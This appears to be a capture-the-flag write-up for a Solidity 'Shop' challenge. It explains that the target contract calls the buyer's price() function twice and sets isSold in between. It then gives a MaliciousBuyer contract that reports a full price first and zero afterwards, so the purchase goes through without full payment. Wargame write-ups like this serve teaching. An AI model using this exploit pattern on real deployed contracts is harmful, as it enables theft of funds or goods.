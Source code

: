 # Answer

Goal: Mark contract as `isSold` true without paying full `price`.

## 1. Detecting second `price()` call

After first glance we can tell the price could be manipulated using `_buyer.price()`. But the interface restricts us from change in `price()` return value using state (what we did in "11-elevator" challenge). Fortunately the contract changes `isSold` value just before calling `price()` again and we can use that as an indicator without changing our own state.

## 2. Buy and change price

Using the information describe before, the malicious buyer contract looks like this:

```solidity
contract MaliciousBuyer is Buyer {
    Shop s;

    constructor(address targetAddr) {
        s = Shop(targetAddr);
    }

    function buy() external {
        s.buy();
    }

    function price() external override view returns (uint256) {
        return !s.isSold() ? 100 : 0;
    }
}

```
Once we call `buy()` of MaliciousBuyer the challenge will be solved.
